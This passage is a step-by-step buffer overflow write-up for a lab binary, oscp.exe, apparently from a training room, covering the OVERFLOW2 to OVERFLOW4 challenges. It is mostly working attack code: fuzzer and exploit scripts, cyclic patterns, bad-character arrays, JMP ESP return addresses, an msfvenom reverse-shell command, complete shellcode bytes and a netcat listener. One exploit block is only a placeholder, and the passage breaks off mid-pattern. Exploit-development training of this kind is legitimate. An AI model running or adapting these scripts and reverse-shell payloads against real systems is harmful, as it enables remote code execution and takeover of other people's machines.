	payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2A"
	postfix = ""

	buffer = prefix + overflow + retn + padding + payload + postfix

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	try:
		s.connect((ip, port))
		print("Sending evil buffer...")
		s.send(bytes(buffer + "\r\n", "latin-1"))
		print("Done!")
	except:
 		print("Could not connect.")
except:
    print ("\nCould not connect!")
    sys.exit()
```

On kail run the exploit again then in mona run the following to get the offset for EIP. We were able to find the offset was 634.

**Kali**

```
python exploit.py $VICTIM 1337
```

**Immunity Debugger**

```
!mona findmsp -distance 700
```

<figure><figcaption></figcaption></figure>

**exploit.py - Code Changes #2**

```
import socket, time, sys

try:
	ip = str(sys.argv[1])
	port = int(sys.argv[2])
	print (ip+":"+str(port))

	prefix = "OVERFLOW2 "
	offset = 634
	overflow = "A" * offset
	retn = "BBBB"
	padding = ""
	payload = ""
	#payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2A"
	postfix = ""

	buffer = prefix + overflow + retn + padding + payload + postfix

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	try:
		s.connect((ip, port))
		print("Sending evil buffer...")
		s.send(bytes(buffer + "\r\n", "latin-1"))
		print("Done!")
	except:
 		print("Could not connect.")
except:
    print ("\nCould not connect!")
    sys.exit()
```

**Kali**

After running the program again we now can fill EIP with our Bs so we now have control of EIP.

```
python exploit.py $VICTIM 1337
```

<figure><figcaption></figcaption></figure>

### Finding Bad Characters

**Kali**

Now we changed the program to look for bad characters so we don't later use those bad characters when generating our payload. We do this by setting our payload to all possible characters, than follow EIP to see which characters aren't showing up. To do this we just have to keep running our exploit and removing the bad characters one by one. The bad characters found were: \x00\x23\x3c\x83\xba

```
python exploit.py $VICTIM 1337
```

#### **exploit.py - Code Changes #3**

```
import socket, time, sys

#badchars found: \x00\x23\x3c\x83\xba
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )

try:
	ip = str(sys.argv[1])
	port = int(sys.argv[2])
	print (ip+":"+str(port))

	prefix = "OVERFLOW2 "
	offset = 634
	overflow = "A" * offset
	retn = "BBBB"
	padding = ""
	payload = badchars
	postfix = ""

	buffer = prefix + overflow + retn + padding + payload + postfix

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	try:
		s.connect((ip, port))
		print("Sending evil buffer...")
		s.send(bytes(buffer + "\r\n", "latin-1"))
		print("Done!")
	except:
 		print("Could not connect.")
except:
    print ("\nCould not connect!")
    sys.exit()
```

<figure><figcaption></figcaption></figure>

### Finding a Jump Point

Now we need to find a place to jump to to run our payload.  We find there is only one place that will meets our conditions that we need which is an address with  SafeSEH, ASLR, and NXCompat disabled and the  memory address doesn't start with 0x00. ex: 0x0040000 won't work, 0x100000 will work. essfunc.dll at 0x62500000 meets this criteria.&#x20;

**Immunity Debugger**

```
!mona modules
```

<figure><figcaption></figcaption></figure>

We find that essfunc.dll has 9 possible JMP ESPs to use. So we will start with the first one which is 0x625011af but when we add it to our code we need it in little endian format so it becomes \xaf\x11\x50\x62.

**Immunity Debugger**

```
!mona find -s "\xff\xe4" -m essfunc.dll
```

<figure><figcaption></figcaption></figure>

### Exploit

Now that we have the return address to use, we just need to generate our payload without using the bad characters found previously. I also added 16 NOPs before the payload as suggested in the room. All that is left is to  &#x20;

```
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=4444 EXITFUNC=thread -b "\x00\x23\x3c\x83\xba" -f c 
```

#### **exploit.py - Code Changes #3**

```
import socket, time, sys

try:
	ip = str(sys.argv[1])
	port = int(sys.argv[2])
	print (ip+":"+str(port))

	prefix = "OVERFLOW2 "
	offset = 634
	overflow = "A" * offset
	retn = "\xaf\x11\x50\x62"
	padding = "\x90" * 16
	payload = ("\xfc\xbb\xc2\x95\xaf\x8c\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x3e\x7d\x2d\x8c\xbe"
"\x7e\x52\x04\x5b\x4f\x52\x72\x28\xe0\x62\xf0\x7c\x0d\x08\x54"
"\x94\x86\x7c\x71\x9b\x2f\xca\xa7\x92\xb0\x67\x9b\xb5\x32\x7a"
"\xc8\x15\x0a\xb5\x1d\x54\x4b\xa8\xec\x04\x04\xa6\x43\xb8\x21"
"\xf2\x5f\x33\x79\x12\xd8\xa0\xca\x15\xc9\x77\x40\x4c\xc9\x76"
"\x85\xe4\x40\x60\xca\xc1\x1b\x1b\x38\xbd\x9d\xcd\x70\x3e\x31"
"\x30\xbd\xcd\x4b\x75\x7a\x2e\x3e\x8f\x78\xd3\x39\x54\x02\x0f"
"\xcf\x4e\xa4\xc4\x77\xaa\x54\x08\xe1\x39\x5a\xe5\x65\x65\x7f"
"\xf8\xaa\x1e\x7b\x71\x4d\xf0\x0d\xc1\x6a\xd4\x56\x91\x13\x4d"
"\x33\x74\x2b\x8d\x9c\x29\x89\xc6\x31\x3d\xa0\x85\x5d\xf2\x89"
"\x35\x9e\x9c\x9a\x46\xac\x03\x31\xc0\x9c\xcc\x9f\x17\xe2\xe6"
"\x58\x87\x1d\x09\x99\x8e\xd9\x5d\xc9\xb8\xc8\xdd\x82\x38\xf4"
"\x0b\x04\x68\x5a\xe4\xe5\xd8\x1a\x54\x8e\x32\x95\x8b\xae\x3d"
"\x7f\xa4\x45\xc4\xe8\xc1\x93\x29\x65\xbd\xa1\xb5\x67\x62\x2f"
"\x53\xed\x8a\x79\xcc\x9a\x33\x20\x86\x3b\xbb\xfe\xe3\x7c\x37"
"\x0d\x14\x32\xb0\x78\x06\xa3\x30\x37\x74\x62\x4e\xed\x10\xe8"
"\xdd\x6a\xe0\x67\xfe\x24\xb7\x20\x30\x3d\x5d\xdd\x6b\x97\x43"
"\x1c\xed\xd0\xc7\xfb\xce\xdf\xc6\x8e\x6b\xc4\xd8\x56\x73\x40"
"\x8c\x06\x22\x1e\x7a\xe1\x9c\xd0\xd4\xbb\x73\xbb\xb0\x3a\xb8"
"\x7c\xc6\x42\x95\x0a\x26\xf2\x40\x4b\x59\x3b\x05\x5b\x22\x21"
"\xb5\xa4\xf9\xe1\xd5\x46\x2b\x1c\x7e\xdf\xbe\x9d\xe3\xe0\x15"
"\xe1\x1d\x63\x9f\x9a\xd9\x7b\xea\x9f\xa6\x3b\x07\xd2\xb7\xa9"
"\x27\x41\xb7\xfb\x27\x65\x47\x04")
	postfix = ""

	buffer = prefix + overflow + retn + padding + payload + postfix

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	try:
		s.connect((ip, port))
		print("Sending evil buffer...")
		s.send(bytes(buffer + "\r\n", "latin-1"))
		print("Done!")
	except:
 		print("Could not connect.")
except:
    print ("\nCould not connect!")
    sys.exit()
```

**Kali #1**

```
nc -lvnp 4444
```

**Kali #2**

```
python exploit.py $VICTIM 1337
```

<figure><figcaption></figcaption></figure>

## oscp.exe - OVERFLOW3

#### fuzzer.py

Slightly modified version of the script given.

```
#!/usr/bin/env python3

import socket, time, sys

try:
	ip = str(sys.argv[1])
	port = int(sys.argv[2])
	print (ip+":"+str(port))
	timeout = 5
	prefix = "OVERFLOW3 "
	string = prefix + "A" * 100

	while True:
		try:
			with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
				s.settimeout(timeout)
				s.connect((ip, port))
				s.recv(1024)
				print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
				s.send(bytes(string, "latin-1"))
				s.recv(1024)
		except:
			print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
			sys.exit(0)
		string += 100 * "A"
		time.sleep(1)

except:
    print ("\nCould not connect!")
    sys.exit()

```

**exploit.py**

Slightly modified version of the script given.

```
import socket, time, sys

try:
	ip = str(sys.argv[1])
	port = int(sys.argv[2])
	print (ip+":"+str(port))

	prefix = "OVERFLOW3 "
	offset = 0
	overflow = "A" * offset
	retn = ""
	padding = ""
	payload = ""
	postfix = ""

	buffer = prefix + overflow + retn + padding + payload + postfix

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	try:
		s.connect((ip, port))
		print("Sending evil buffer...")
		s.send(bytes(buffer + "\r\n", "latin-1"))
		print("Done!")
	except:
 		print("Could not connect.")
except:
    print ("\nCould not connect!")
    sys.exit()
```

**Kali**

Login the the Windows box then open the oscp.exe within Immunity Debugger. Press the play button to start the program.

```
xfreerdp /u:admin /p:password /cert:ignore /v:$VICTIM /workarea
```

### **Crash Replication & Controlling EIP**

```
python fuzzer.py $VICTIM 1337
```

Program crashed at 1300 bytes with fuzzer.py


<figure><figcaption></figcaption></figure>

```
/opt/metasploit-framework-5101/tools/exploit/pattern_create.rb -l 1300
```

#### **exploit.py - Code Changes #1**

I added the pattern\_create output into the payload variable.

```
import socket, time, sys

try:
	ip = str(sys.argv[1])
	port = int(sys.argv[2])
	print (ip+":"+str(port))

	prefix = "OVERFLOW3 "
	offset = 0
	overflow = "A" * offset
	retn = ""
	padding = ""
	payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2B"
	postfix = ""

	buffer = prefix + overflow + retn + padding + payload + postfix

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	try:
		s.connect((ip, port))
		print("Sending evil buffer...")
		s.send(bytes(buffer + "\r\n", "latin-1"))
		print("Done!")
	except:
 		print("Could not connect.")
except:
    print ("\nCould not connect!")
    sys.exit()
```

On kail run the exploit again then in mona run the following to get the offset for EIP. We were able to find the offset was 1274.

**Kali**

```
python exploit.py $VICTIM 1337
```

**Immunity Debugger**

```
!mona findmsp -distance 1300
```

<figure><figcaption></figcaption></figure>

**exploit.py - Code Changes #2**

```
import socket, time, sys

try:
	ip = str(sys.argv[1])
	port = int(sys.argv[2])
	print (ip+":"+str(port))

	prefix = "OVERFLOW3 "
	offset = 1274
	overflow = "A" * offset
	retn = "BBBB"
	padding = ""
	payload = ""
	#payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2B"
	postfix = ""

	buffer = prefix + overflow + retn + padding + payload + postfix

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	try:
		s.connect((ip, port))
		print("Sending evil buffer...")
		s.send(bytes(buffer + "\r\n", "latin-1"))
		print("Done!")
	except:
 		print("Could not connect.")
except:
    print ("\nCould not connect!")
    sys.exit()
```

**Kali**

After running the program again we now can fill EIP with our Bs so we now have control of EIP.

```
python exploit.py $VICTIM 1337
```

<figure><figcaption></figcaption></figure>

### Finding Bad Characters

**Kali**

Now we changed the program to look for bad characters so we don't later use those bad characters when generating our payload. We do this by setting our payload to all possible characters, than follow EIP to see which characters aren't showing up. To do this we just have to keep running our exploit and removing the bad characters one by one. The bad characters found were: \x00\x11\x40\x5f\xb8\xee

```
python exploit.py $VICTIM 1337
```

#### **exploit.py - Code Changes #3**

```
import socket, time, sys

#badChars found: \x00\x11\x40\x5f\xb8\xee
badChars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"
"\x10\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"
"\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"
"\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"
"\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf"
"\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xef"
"\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

try:
	ip = str(sys.argv[1])
	port = int(sys.argv[2])
	print (ip+":"+str(port))

	prefix = "OVERFLOW3 "
	offset = 1274
	overflow = "A" * offset
	retn = "BBBB"
	padding = ""
	payload = badChars
	postfix = ""

	buffer = prefix + overflow + retn + padding + payload + postfix

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	try:
		s.connect((ip, port))
		print("Sending evil buffer...")
		s.send(bytes(buffer + "\r\n", "latin-1"))
		print("Done!")
	except:
 		print("Could not connect.")
except:
    print ("\nCould not connect!")
    sys.exit()
```

<figure><figcaption></figcaption></figure>

### Finding a Jump Point

Now we need to find a place to jump to to run our payload.  We find there is only one place that will meets our conditions that we need which is an address with  SafeSEH, ASLR, and NXCompat disabled and the  memory address doesn't start with 0x00. ex: 0x0040000 won't work, 0x100000 will work. essfunc.dll at 0x62500000 meets this criteria.&#x20;

**Immunity Debugger**

```
!mona modules
```

<figure><figcaption></figcaption></figure>

We find that essfunc.dll has 9 possible JMP ESPs to use. I started with the first one but later found out that it does not work, neither did most of the other ones. When I was ready to have my listener running to catch a shell nothing was returned. I decided to go down this list until I found one that had enough space for our payload. The one that worked was 0x62501203 but when we add it to our code we need it in little endian format so it becomes \x03\x12\x50\x62. We could have also tried with a smaller payload if none of the JMP ESPs worked.

**Immunity Debugger**

```
!mona find -s "\xff\xe4" -m essfunc.dll
```

<figure><figcaption></figcaption></figure>

### Exploit

Now that we have the return address to use, we just need to generate our payload without using the bad characters found previously. I also added 16 NOPs before the payload as suggested in the room. All that is left is to  &#x20;

```
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=4444 EXITFUNC=thread -b "\x00\x11\x40\x5f\xb8\xee" -f c 
```

#### **exploit.py - Code Changes #3**

```
// Some code
```

**Kali #1**

```
nc -lvnp 4444
```

**Kali #2**

```
python exploit.py $VICTIM 1337
```

<figure><figcaption></figcaption></figure>

## oscp.exe - OVERFLOW4

#### fuzzer.py

Slightly modified version of the script given.

```
#!/usr/bin/env python3

import socket, time, sys

try:
	ip = str(sys.argv[1])
	port = int(sys.argv[2])
	print (ip+":"+str(port))
	timeout = 5
	prefix = "OVERFLOW4 "
	string = prefix + "A" * 100

	while True:
		try:
			with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
				s.settimeout(timeout)
				s.connect((ip, port))
				s.recv(1024)
				print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
				s.send(bytes(string, "latin-1"))
				s.recv(1024)
		except:
			print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
			sys.exit(0)
		string += 100 * "A"
		time.sleep(1)

except:
    print ("\nCould not connect!")
    sys.exit()

```


#### exploit.py

Slightly modified version of the script given.

```
import socket, time, sys

try:
	ip = str(sys.argv[1])
	port = int(sys.argv[2])
	print (ip+":"+str(port))

	prefix = "OVERFLOW4 "
	offset = 0
	overflow = "A" * offset
	retn = ""
	padding = ""
	payload = ""
	postfix = ""

	buffer = prefix + overflow + retn + padding + payload + postfix

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	try:
		s.connect((ip, port))
		print("Sending evil buffer...")
		s.send(bytes(buffer + "\r\n", "latin-1"))
		print("Done!")
	except:
 		print("Could not connect.")
except:
    print ("\nCould not connect!")
    sys.exit()
```

**Kali**

Login the the Windows box then open the oscp.exe within Immunity Debugger. Press the play button to start the program.

```
xfreerdp /u:admin /p:password /cert:ignore /v:$VICTIM /workarea
```

### **Crash Replication & Controlling EIP**

```
python fuzzer.py $VICTIM 1337
```

Program crashed at 2100 bytes with fuzzer.py

<figure><figcaption></figcaption></figure>

```
/opt/metasploit-framework-5101/tools/exploit/pattern_create.rb -l 2100
```

#### **exploit.py - Code Changes #1**

I added the pattern\_create output into the payload variable.

```
import socket, time, sys

try:
	ip = str(sys.argv[1])
	port = int(sys.argv[2])
	print (ip+":"+str(port))

	prefix = "OVERFLOW4 "
	offset = 0
	overflow = "A" * offset
	retn = ""
	padding = ""
	payload = "Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2B